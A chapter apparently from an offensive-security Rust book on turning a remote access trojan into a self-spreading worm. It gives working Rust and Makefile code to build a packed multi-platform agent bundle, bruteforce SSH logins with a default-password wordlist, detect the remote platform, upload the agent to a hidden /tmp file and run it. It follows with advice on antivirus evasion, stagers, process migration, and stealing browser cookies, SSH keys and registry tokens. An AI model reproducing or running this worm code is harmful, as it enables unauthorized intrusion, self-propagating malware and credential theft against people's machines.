




# Turning our RAT into a worm to increase reach

Now we have a working RAT that can persist on infected machines, it's time to infect more targets.


## What is a worm

A **worm** is a piece of software that can replicate itself in order to spread to other machines.


Worms are particularly interesting for ransomware and botnet operators as reaching critical mass is important for these kinds of operations. That being said, stealth worms are also used in more targeted operations (e.g. Stuxnet).


Worms are the evolution of viruses adapted to the modern computing landscape. Today, it's very rare to find a computing device without access to the internet. Thus, it's all-natural that worms use the network to spread.

In the past, it was not uncommon for users to directly share programs on floppy disks or USB keys. Thus, a virus could spread by infecting a binary, which once copied and executed on another computer would infect it.

Due to the protection mechanisms implemented by modern OSes, the prevalence of App Stores as a distribution channel, and the slowness of the process, this mode of operation has almost completely disappeared in favor of networked worms that can now spread to the entire internet in a matter of days, if not hours.

That being said, it's still uncommon to find viruses in pirated software and games (such as Photoshop).

<!--


ce qu’on peut en retenir, c’est que lorque l’on construit un service networke (HTTP, SSH git, jeux video (lien vers GS GO RCE) la moindre RCE est fatale et peut permettre des hack de masse extremement rapidement.

Cest ce qui se passe recement avec les serveurs windows (trouver liens) et les ransomwares.

 -->

## Spreading techniques

Usually, a worm replicates itself without human intervention by automatically scanning networks. It has the disadvantage of being way easier to detect as it may try to spread to honeypots or network sensors.


They use 2 kinds of techniques to spread:

- By bruteforcing a networked service (SSH, for example)
- Or by using exploits (RCE or even XSS)





After choosing the technique that your worm will use to spread, you want to choose the spreading strategy. There are 2 different strategies.

The first way is for targeted attacks, where the worm only spreads when receiving specific instructions from its operators.

The second way is for broad, indiscriminate attacks. The worm basically scans the whole internet and local networks in order to spread to as many machines as possible. Beware that this implementation is completely illegal and may cause great harm if it reaches sensitive infrastructure such as hospitals during a global pandemic. It will end you in jail (or worse) quickly.


### Networked services bruteforce

Bruteforce is the practice of trying all the possible combinations of credentials in the hope of eventually guessing it correctly (and, in our case, gaining access to the remote system).


Of course, trying all the combinations of ASCII characters is not very practical when trying to bruteforce networked services. It takes too much time.

A better way is to only try credential pairs `(username, password)` known to be often used by manufacturers. You can find such a wordlist in [Mirai's source code online](https://github.com/jgamblin/Mirai-Source-Code/blob/master/mirai/bot/scanner.c).

This primitive but effective at scale technique is often used by IoT botnets such as Mirai or derivatives due to the poor security of IoT gadgets (Internet cameras, smart thermostats...).


### Stolen credentials

Another similar but more targeted kind of spreading technique is by using stolen credentials.

For example, on an infected server, the worm can look at `~/.ssh/config` and `~/.ssh/known_hosts` to find other machines that may be accessible from the current server and use the private keys in the `~/.ssh` folder to spread.


### Networked services vulnerabilities

By embedding exploits for known networked services vulnerabilities, a worm can target and spread to the machines hosting these services.

One of the first worms to become famous: [Morris](https://en.wikipedia.org/wiki/Morris_worm) used this technique to spread.

Nowadays, this technique is widely used by ransomware because of the speed at which they can spread once such a new vulnerability is discovered.

**This is why you should always keep your servers, computers, and smartphones up-to-date!**

### Other exploits

A worm is not limited to exploiting networked services. As we saw in chapter 6, parsing is one of the first sources of vulnerabilities. Thus, by exploiting parsing vulnerabilities in commonly used software, a worm can spread offline by infecting the files being parsed.

Here are some examples of complex file types that are often subject to vulnerabilities:

- Subtitles
- Videos
- Fonts
- Images


### Infecting supply chain

Each software project has dependencies that are known as its supply chain:

- Code dependencies (packages, crates...)
- A compiler
- A CI/CD pipeline

By compromising any of these elements, a worm could spread to other machines.

- [`crossenv` malware on the npm registry](https://blog.npmjs.org/post/163723642530/crossenv-malware-on-the-npm-registry)
- [Mick Stute on hunting a malicious compiler](https://www.quora.com/What-is-a-coders-worst-nightmare/answer/Mick-Stute)
- [Using Rust Macros to exfiltrate secrets](https://github.com/lucky/bad_actor_poc)
- [Embedded malware in the `rc` NPM package](https://github.com/advisories/GHSA-g2q5-5433-rhrf)


The simplest way to achieve this is by typo-squatting (see chapter 9) famous packages.

A more advanced way is by stealing the credentials of the package registries on developers' computers and using them to infect the packages that the developers publish.


### Executable infection

Infecting executables were very popular near the 2000s: programs were often shared directly between users, and not everything was as connected as today.


That being said, there were entire communities dedicated to finding the most interesting ways to infect programs. It was known as the VX scene.

If you want to learn more about this topic, search for "vxheaven" :)


### Networked storage

Another trick is to simply copy itself in a networked folder, such as Dropbox, iCloud, or Google Drive, and pray for a victim to click and execute it.


### Removable storage


Like networked storage, a worm can copy itself to removable storage units such as USB keys and hard drives and pray for a victim to click and execute it.


## Cross-platform worm


Now we have a better idea about how a worm can spread, let's talk about cross-platform worms.




A cross-platform worm is a worm that can spread across different Operating Systems and architectures.

For example, from a x86_64 computer running the Windows OS to an ARM server running the Linux IS. Or from a laptop running macOS to a smartphone running iOS.


One example of such a cross-platform worm is Stuxnet. It used normal computers to spread and reach industrial machines of Iran's nuclear program that were in an air-gapped network (without access to the global internet. It's a common security measure for sensitive infrastructure).

As executables are usually not compatible between the platforms, a cross-platform worm needs to be compiled for all the targeted architecture.

Then you have 2 choices:

Either it uses a central server to store the bundle of all the compiled versions of itself, then when infecting a new machine, downloads the bundle and select the appropriate binary. It has the advantage of being easy to implement and eases the distribution of updates.


Or, it can carry the bundle of all the compiled versions along, from an infected host to another. This method is a little bit harder to achieve, depending on the spreading technique used. But, as it does not rely on a central server, it is more stealthy and resilient.


<!--
sustainability
privacy
offlune builds

 -->


## Spreading through SSH

As always, we will focus on the techniques that bring the most results while staying simple. For a worm, it's SSH for 2 reasons:

- poorly configured IoT devices
- management of SSH keys is hard


### Poorly secured IoT devices

IoT devices (such as cameras, printers...) with weak or non-existent security are proliferating. This is very good news for attackers and very bad news for everyone else,


### Management of SSH keys is hard

So people often make a lot of mistakes that our worm will be able to exploit.

An example of a mistake is not passphrase-protecting SSH keys.
<!--

Expliquer le .ssh/config...

 -->


## Vendoring dependencies


Vendoring dependencies is the act of bundling all your dependencies with your code in your repositories.

Why would someone want to do that?

A first reason is for offline builds: when your dependencies are in your repository, you no longer depend on the availability of the dependencies registry ([crates.io](https://creates.io) or Git in the case of Rust), thus if for some reason the registry goes down, our you no longer have internet, you will still be able to build your program.

A second reason is privacy. Indeed, depending on an external registry induces a lot of privacy concerns for all the people and machines (your CI/CD pipeline, for example) that will build your code. Each time someone or something wants to build the project and doesn't have the dependencies locally cached, it has to contact the package registry, leaking its IP address, among other things. Depending on the location of those registries and the law they have to obey, they may block some countries.

A third reason is for adits. Indeed, when you vendor your dependencies, the updates of the dependencies now appear in git diff, and thus fit well in a code-review process. Dependencies updates can be reviewed like any other chunk of code.


But, vendoring dependencies has the disadvantage of significantly increasing the size of your code repository by many Megabytes. And once a Git repository tracks a file, it's very hard to remove it from the history.


An alternative is to use a private registry, but it comes with a lot of maintenance and may only be a viable solution for larger teams.

In Rust, you can vendor your dependencies using the `cargo vendor` command.


## Implementing a cross-platform worm in Rust


### bundle.zip


The first step is to build our bundle containing all the compiled versions of the worm for all the platforms we want to target.

For that, we will use `cross` as we learned in the previous chapter.

Also, in order to reduce the bundle's size, we compress each executable with the `upx` packer.


**[ch_13/rat/Makefile](https://github.com/skerkour/black-hat-rust/blob/main/ch_13/rat/Makefile)**
```makefile
.PHONY: bundle
bundle: x86_64 aarch64
    rm -rf bundle.zip
    zip -j bundle.zip target/agent.linux_x86_64 target/agent.linux_aarch64


.PHONY: x86_64
x86_64:
    cross build -p agent --release --target x86_64-unknown-linux-musl
    upx -9 target/x86_64-unknown-linux-musl/release/agent
    mv target/x86_64-unknown-linux-musl/release/agent target/agent.linux_x86_64


.PHONY: aarch64
aarch64:
    cross build -p agent --release --target aarch64-unknown-linux-musl
    upx -9 target/aarch64-unknown-linux-musl/release/agent
    mv target/aarch64-unknown-linux-musl/release/agent target/agent.linux_aarch64
```

```bash
$ make bundle
```


Our `bundle.zip` file now contains:

```default
agent.linux_x86_64
agent.linux_aarch64
```

## Install

In the previous chapter, we saw how to persist across different OSes.

Now we need to add a step in our installation process: the extraction of the `bundle.zip` file.


**[ch_13/rat/agent/src/install.rs](https://github.com/skerkour/black-hat-rust/blob/main/ch_13/rat/agent/src/install.rs)**
```rust
pub fn install() -> Result<PathBuf, crate::Error> {
    let install_dir = config::get_agent_directory()?;
    let install_target = config::get_agent_install_target()?;

    if !install_target.exists() {
        println!("Installing into {}", install_dir.display());
        let current_exe = env::current_exe()?;

        fs::create_dir_all(&install_dir)?;

        fs::copy(current_exe, &install_target)?;

        // here, we could have fetched the bundle from a central server
        let bundle = PathBuf::from("bundle.zip");
        if bundle.exists() {
            println!(
                "bundle.zip found, extracting it to {}",
                install_dir.display()
            );

            extract_bundle(install_dir.clone(), bundle)?;
        } else {
            println!("bundle.zip NOT found");
        }
    }

    Ok(install_dir)
}
```


```rust
fn extract_bundle(install_dir: PathBuf, bundle: PathBuf) -> Result<(), crate::Error> {
    let mut dist_bundle = install_dir.clone();
    dist_bundle.push(&bundle);

    fs::copy(&bundle, &dist_bundle)?;

    let zip_file = fs::File::open(&dist_bundle)?;
    let mut zip_archive = zip::ZipArchive::new(zip_file)?;

    for i in 0..zip_archive.len() {
        let mut archive_file = zip_archive.by_index(i)?;
        let dist_filename = match archive_file.enclosed_name() {
            Some(path) => path.to_owned(),
            None => continue,
        };
        let mut dist_path = install_dir.clone();
        dist_path.push(dist_filename);

        let mut dist_file = fs::File::create(&dist_path)?;
        io::copy(&mut archive_file, &mut dist_file)?;
    }

    Ok(())
}
```

Note that in a real-world scenario, we may download `bundle.zip` from a remote server instead of simply having it available on the filesystem.


## Spreading

### SSH connection

<!-- TODO -->

**[ch_13/rat/agent/src/spread.rs](https://github.com/skerkour/black-hat-rust/blob/main/ch_13/rat/agent/src/spread.rs)**
```rust
    let tcp = TcpStream::connect(host_port)?;
    let mut ssh = Session::new()?;
    ssh.set_tcp_stream(tcp);
    ssh.handshake()?;
```


### Bruteforce


Then comes the SSH bruteforce. For that, we need a wordlist.

While a smarter way to bruteforce a service is to use predefined (`(username, password)` pairs known to be used by poorly-secured devices, here we will try the most used passwords for each username.

**[ch_13/rat/agent/src/wordlist.rs](https://github.com/skerkour/black-hat-rust/blob/main/ch_13/rat/agent/src/wordlist.rs)**
```rust
pub static USERNAMES: &'static [&str] = &["root"];

pub static PASSWORDS: &'static [&str] = &["password", "admin", "root"];
```


```rust
fn bruteforce(ssh: &Session) -> Result<Option<(String, String)>, crate::Error> {
    for username in wordlist::USERNAMES {
        for password in wordlist::PASSWORDS {
            let _ = ssh.userauth_password(username, password);
            if ssh.authenticated() {
                return Ok(Some((username.to_string(), password.to_string())));
            }
        }
    }

    return Ok(None);
}
```


### Detecting the platform of the target

In Rust, the simplest way to represent the remote platform is by using an `enum`.

**[ch_13/rat/agent/src/spread.rs](https://github.com/skerkour/black-hat-rust/blob/main/ch_13/rat/agent/src/spread.rs)**
```rust
#[derive(Debug, Clone, Copy)]
enum Platform {
    LinuxX86_64,
    LinuxAarch64,
    MacOsX86_64,
    MacOsAarch64,
    Unknown,
}

impl fmt::Display for Platform {
    fn fmt(&self, f: &mut fmt::Formatter) -> fmt::Result {
        match self {
            Platform::LinuxX86_64 => write!(f, "linux_x86_64"),
            Platform::LinuxAarch64 => write!(f, "linux_aarch64"),
            Platform::MacOsX86_64 => write!(f, "macos_x86_64"),
            Platform::MacOsAarch64 => write!(f, "macos_aarch64"),
            Platform::Unknown => write!(f, "unknown"),
        }
    }
}
```

By implementing the `fmt::Display` trait, our `Platform` enum automagically has the `.to_string()` method available.

Then, we need to identify the remote platform. The simplest way to achieve that is by running the `uname -a` command on the remote system, as a system hosting an SSH server is almost guaranteed to have this command available.


```rust
fn identify_platform(ssh: &Session) -> Result<Platform, crate::Error> {
    let mut channel = ssh.channel_session()?;
    channel.exec("uname -a")?;

    let (stdout, _) = consume_stdio(&mut channel);
    let stdout = stdout.trim();

    if stdout.contains("Linux") {
        if stdout.contains("x86_64") {
            return Ok(Platform::LinuxX86_64);
        } else if stdout.contains("aarch64") {
            return Ok(Platform::LinuxAarch64);
        } else {
            return Ok(Platform::Unknown);
        }
    } else if stdout.contains("Darwin") {
        if stdout.contains("x86_64") {
            return Ok(Platform::MacOsX86_64);
        } else if stdout.contains("aarch64") {
            return Ok(Platform::MacOsAarch64);
        } else {
            return Ok(Platform::Unknown);
        }
    } else {
        return Ok(Platform::Unknown);
    }
}
```

### Upload

With `scp` we can upload a file through an SSH connection:
```rust
fn upload_agent(ssh: &Session, agent_path: &PathBuf) -> Result<String, crate::Error> {
    let rand_name: String = thread_rng()
        .sample_iter(&Alphanumeric)
        .take(32)
        .map(char::from)
        .collect();
    let hidden_rand_name = format!(".{}", rand_name);

    let mut remote_path = PathBuf::from("/tmp");
    remote_path.push(&hidden_rand_name);

    let agent_data = fs::read(agent_path)?;

    println!("size: {}", agent_data.len());

    let mut channel = ssh.scp_send(&remote_path, 0o700, agent_data.len() as u64, None)?;
    channel.write_all(&agent_data)?;

    Ok(remote_path.display().to_string())
}
```

### Installation

As our worm installs itself on its first execution, we only need to launch it through SSH and let it live its own life.

```rust
fn execute_remote_agent(ssh: &Session, remote_path: &str) -> Result<(), crate::Error> {
    let mut channel_exec = ssh.channel_session()?;
    channel_exec.exec(&remote_path)?;
    let _ = consume_stdio(&mut channel_exec);

    Ok(())
}
```

Finally, putting it all together and we have our `spread` function:
```rust
pub fn spread(install_dir: PathBuf, host_port: &str) -> Result<(), crate::Error> {
    let tcp = TcpStream::connect(host_port)?;
    let mut ssh = Session::new()?;
    ssh.set_tcp_stream(tcp);
    ssh.handshake()?;

    match bruteforce(&mut ssh)? {
        Some((username, password)) => {
            println!(
                "Authenticated! username: ({}), password: ({})",
                username, password
            );
        }
        None => {
            println!("Couldn't authenticate. Aborting.");
            return Ok(());
        }
    };

    let platform = identify_platform(&ssh)?;
    println!("detected platform: {}", platform);

    let mut agent_for_platform = install_dir.clone();
    agent_for_platform.push(format!("agent.{}", platform));
    if !agent_for_platform.exists() {
        println!("agent.{} not avalable. Aborting.", platform);
        return Ok(());
    }

    println!("Uplaoding: {}", agent_for_platform.display());

    let remote_path = upload_agent(&ssh, &agent_for_platform)?;
    println!("agent uploaded to {}", &remote_path);

    execute_remote_agent(&ssh, &remote_path)?;
    println!("Agent successfully executed on remote host 🥳");

    Ok(())
}
```


## More advanced techniques for your RAT

This part about building a modern RAT is coming to its end, but before leaving you, I want to cover more techniques that we haven't discussed so far to make your RAT better and more stealthy.


### Distribution

One of the first and most important things to think about is how to distribute your RAT.

It will greatly depend on the type of operations you want to carry.

Do you want to perform a targeted attack? An exploit or a phishing campaign may be the most effective technique.

Or, do you want to reach as many machines as possible, fast? Backdooring games is a good way to achieve this. Here is [a report of the most backdoored games](https://www.pcmag.com/news/these-are-the-games-malware-scammers-are-exploiting-most), Minecraft and The Sims 4 being the top 2.


### Auto update

Like all software, our RAT is going to evolve over time and will need to be updated. This is where an auto-update mechanism comes in handy. Basically, the RAT will periodically check if a new version is available and update itself if necessary.

When implementing such a mechanism, don't forget to sign your updates with your private key (See chapter 11). Otherwise, an attacker could take over your agents by spreading a compromised update.


### Virtual filesystem

The more complex a RAT becomes, the more it needs to manipulate files:

- configuration
- sensible files to extract
- cross-platform bundles
- ...

Unfortunately, using the filesystem of the host may leave traces and clues of the presence of the RAT. In Order to circumvent that, a modern RAT could use an encrypted virtual filesystem.

An encrypted virtual filesystem allows a RAT to hide its files from the host, and thus, eventual anti-virus engine and forensic analysts.

The simplest way to implement an encrypted virtual filesystem is by using [SQLCipher](https://www.zetetic.net/sqlcipher/): an add-on for SQLite, which encrypts the database file on dist.


### Anti-Anti-Virus tricks

Until now, we didn't talk about detection.

As you may certainly know, anti-viruses exist. Once a sample of your RAT is detected in the wild, it's just a matter of days before it is flagged by all the anti-viruses.

This is why you need to understand how anti-viruses work, in order to detect and bypass them. They use mainly 3 methods to detect viruses:

**Signature-based detection**: Anti-viruses check the hash of programs against a database of hashes known to be viruses. This technique is the simplest to avoid as a simple difference of 1 bit (some metadata of the binary, for example) modify the hash.

**Shape analysis**: Anti-viruses check if the shape of a program is suspicious and looks like a virus (it has suspicious strings embedded for example, or it uses snippets of code known to be used by malware).

**Behavior-based detection**: Anti-viruses execute unknown binaries in sandboxes in order to see if they behave like viruses (they try to access sensitive files, for example).


An example of a trick that I found to detect Windows Anti-Viruses was to try to open the current binary (the RAT) with the read-write flag. If it's a success, then the binary is being examined by some kind of sandbox or Anti-Virus. Indeed, Windows doesn't allow a program that is currently being executed to be opened with write privileges.


### Privileges escalation

As we saw in chapter 12, some techniques (for persistence, hiding, or simply full-system takeover) may require elevated privileges. For that, we can use the kind of exploits developed in chapter 7 and embed them in the RAT. It's greatly facilitated by Rust's package system.


### Encrypted Strings


The very first line of defense for your RAT to implement is Strings encryption. One of the very few steps any analyst or anti-virus will do when analyzing your RAT is to search for Strings. (for example, with the `strings` Unix tool).

It's possible to do that with Rust's macros sytem and / or crates usch as [obfstr](https://docs.rs/obfstr) or [litcrypt](https://docs.rs/litcrypt/0.3.0/litcrypt/)


### Anti-debugging tricks


The second line of defense against analysts is Anti-debugging tricks.

Analysts (Humans or automated) use debuggers to reverse-engineers malware samples. This is known as "dynamic analysis". The goal of anti-debugging tricks is to slow down this dynamic analysis and increase the cost (in time) to reverse engineer our RAT.


### Proxy




Once in a network, you may want to pivot into other networks. For that, you may need a proxy module to pivot and forward traffic from one network to another one, if you can't access that second network.


### Stagers

Until now, we built our RAT as a single executable. When developing more advanced RATs, you may want to split the actual executable and the payload into what is called a stager, and the RAT becomes a library.

With this technique, the RAT that is now a library can live encrypted on disk. On execution, the stager will decrypt it in memory and load it. Thus, the **actual RAT will live decrypted only in memory**.

It has the advantage of leaving way fewer pieces of evidence on the infected systems.





### Process migration

Once executed, a good practice for RAT to reduce their footprint is to migrate to another process. By doing this, they no longer exist as an independent process but are now in the memory space of another process.

Thus, from a monitoring tool perspective, it's the host process that will do all the network and filesystem operations normally done by the RAT. Also, the RAT no longer appears in the process list.


### Stealing credentials

Of course, a RAT is not limited to remote commands execution. The second most useful feature you may want to implement is a credentials stealer.

You will have no problem finding inspiration on GitHub: [https://github.com/search?q=chrome+stealer](https://github.com/search?q=chrome+stealer).

The 3 most important kinds of credentials to look for are (in no particular order):

**Web browsers saved passwords and cookies**. Stolen may even have greater value than stolen passwords as they can be imported in another browser to impersonate the original user and completely bypass 2-factor authentication.

**SSH keys**. Compromised servers often have more value than simple computers: they may have access to sensitive information such as a database or simply have more resources available for mining cryptocurrencies or DDoS.

**Tokens for package registries**. Such as [npmjs.com](https://npmjs.com) or [crates.io](https://crates.io). As we saw earlier, these tokens can be used to distribute in a very broad or targeted way, depending on your needs.


<!-- ### Modifying the binary's metdata

Most compiled languages embed metadata about the program, such as the compile date and timezone. In order to cover your tracks, you may want either to compile your programs in an anonymous container with a bad time configured or to update these metadata after compilation. -->

## Summary

- A **worm** is a piece of software that can replicate itself in order to spread to other machines.
- Thanks to Rust's packages system, it's very easy to create reusable modules.
- Any Remote Code Execution vulnerability on a networked service can be used by a worm to quickly spread.
